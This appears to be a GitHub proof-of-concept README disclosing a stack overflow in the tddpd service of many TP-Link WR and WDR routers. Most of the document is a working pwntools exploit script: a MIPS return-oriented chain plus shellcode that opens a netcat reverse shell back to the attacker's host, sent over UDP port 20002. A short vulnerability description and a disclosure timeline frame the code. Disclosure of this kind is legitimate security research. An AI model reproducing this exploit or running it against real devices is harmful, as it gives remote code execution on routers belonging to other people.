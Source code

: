 # TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**

![](./poc.png)

## poc

Refer to this video: [poc_video](./poc.mkv)

**poc&exp**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data=b''.join([
    p32(0xbeef0000),
    p32(0xbeef0001),
    p32(0xbeef0002),
    p32(0x100), #s0
    p32(0xbeef0004),
    p32(0),
    p32(0x4193c4), #s3
    p32(0x4070e0), #rip
    p32(0xbeef0008),# sp_1
    p32(0xbeef0009),
    p32(0xbeef000a),
    p32(0xbeef000b),
    p32(0xbeef000c),
    p32(0xbeef000d),
    p32(0xbeef000e),
    p32(0x419800-4), # s0
    p32(0),#s1
    p32(0x402960), #ra_1
    p32(0xbeef0012),# sp_2
    p32(0xbeef0013),
    p32(0xbeef0014),
    p32(0xbeef0015),
    p32(0xbeef0016),
    p32(0xbeef0017),
    p32(0xbeef0018),
    p32(0xbeef0019),#shellcode1
    p32(0x401790),
    p32(0xbeef001b),
    p32(0xbeef001c),#shellcode4
    p32(0xbeef001d),
    p32(0xbeef001e),
    p32(0x300),#s0_2
    p32(0xbeef0020),
    p32(0x4070e0),#ra_2
    p32(0xbeef0022),#sp_3
    p32(0xbeef0023),
    p32(0xbeef0024),
    p32(0xbeef0025),
    p32(0xbeef0026),
    p32(0xbeef0027),
    p32(0xbeef0028),
    p32(0),#s0
    p32(0x419810),#s1_2
    p32(0x403e40),
    p32(0xbeef002c),#sp
    p32(0xbeef002d),
    p32(0xbeef002e),
    p32(0xbeef002f),
    p32(0xbeef0030),
    p32(0xbeef0031),
    p32(0xbeef0032),
    p32(0x420000),#s0
    p32(0),#s1
    p32(0x4194d0),#s2 :memcpy_got
    p32(0x420000),#s3
    p32(0x401cf8),#ra 
    p32(0xbeef0038),#sp
    p32(0xbeef0039),#sp
    p32(0xbeef003a),#sp
    p32(0xbeef003b),#sp
    p32(0xbeef003c),#sp
    p32(0xbeef003d),#sp
    p32(0xbeef003e),#sp
    p32(0x420000),#s0
    p32(0),#s1
    p32(0x419804-4),#s2
    p32(0x420000),#s3
    p32(0x403a78),#r0
    p32(0xbeef0040),#sp
    p32(0xbeef0040),#sp
    p32(0xbeef0040),#sp
    p32(0xbeef0040),#sp
    p32(0xbeef0040),#sp
    p32(0xbeef0040),#sp
    p32(0x420000),#s0
    p32(0x401cf8),#ra
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0043),#sp
    p32(0xbeef0044),#s0
    p32(0xbeef0045),#s1
    p32(0xbeef0046),#s2
    p32(0xbeef0047),#s3
    p32(0x419940),#ra
])
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)
data+=asm(shellcraft.execve(path='/bin/sh',argv=['sh','-c','mknod /tmp/a p; nc %s %s 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;'%(LOCAL_IP,LOCAL_LISTEN_PORT)]))

len2=len(data)
len1=4+len2
hash=0x5a6b7c8d

payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data

kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
critical("We login to the management interface just for checking the version of firmware, the exploit itself requires nothing but the connection to the router's LAN.\n")
log('Start connection to %s...'%REMOTE_IP)
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
sys.stdout.write('Connect success\n')
log('Start exploiting')
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)
log('Exploit success! Try connect router with telnet %s at port 1234\n'%REMOTE_IP)

```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link
